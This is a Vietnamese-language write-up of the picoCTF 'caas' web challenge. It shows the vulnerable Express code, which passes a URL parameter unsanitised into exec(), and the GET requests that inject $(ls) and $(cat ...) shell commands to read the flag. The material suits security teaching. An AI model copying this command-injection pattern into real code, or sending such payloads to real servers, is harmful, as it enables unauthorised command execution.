 # ccas
##### Tags: `picoMini by redpwn` `Web Exploitation`
### DESCRIPTION
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
#####
CHALLENGE ENDPOINTS: [index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)
> caas hay Cowsay là một chương trình vui của UNIX khi tạo ra bức tranh của một chú bò nói những dòng tin mà người dùng tạo ra.
##### Sử dụng BurpSuite để forward Request trong Repeater để xem phản ứng của trang web:
```
HTTP/2 200 OK

Content-Type: text/plain; charset=utf-8

Date: Mon, 11 Mar 2024 14:13:56 GMT

Etag: W/"97-2+ewzTQiX8jk22CNOwuSfHKQur4"

X-Powered-By: Express

Content-Length: 151



 _______
< yoooo >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
##### Kiểm tra file endpoint index.js:
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```
> Thấy trang web có lỗ hổng khi sử dụng `exec` mà không có sử lý input hợp lý.
##### Sử dụng `GET` trong request như sau để tìm flag:
```
GET https://caas.mars.picoctf.net/cowsay/$(ls) HTTP/2
GET https://caas.mars.picoctf.net/cowsay/$(cat falg.txt) HTTP/2
```
##### =>  Lấy flag thành công!
    
